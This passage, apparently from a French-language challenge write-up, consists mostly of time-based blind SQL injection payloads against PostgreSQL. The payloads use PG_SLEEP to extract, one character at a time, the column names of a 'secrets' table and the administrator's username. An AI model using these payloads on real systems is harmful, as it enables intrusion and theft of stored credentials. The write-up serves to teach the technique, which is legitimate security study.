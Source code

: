```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 1)::text,2,1))=ASCII('s') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 1)::text,3,1))=ASCII('e') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

La seconde colonne se nomme "username".

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 2)::text,1,1))=ASCII('s') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 2)::text,2,1))=ASCII('e') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 2)::text,3,1))=ASCII('c') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

La troisième et dernière colonne se nomme "secret".

Récupération du secret de l'administrateur :&#x20;

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT username FROM secrets LIMIT 1 OFFSET 0)::text,1,1))=ASCII('a') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT username FROM secrets LIMIT 1 OFFSET 0)::text,2,1))=ASCII('d') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT username FROM secrets LIMIT 1 OFFSET 0)::text,3,1))=ASCII('m') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```
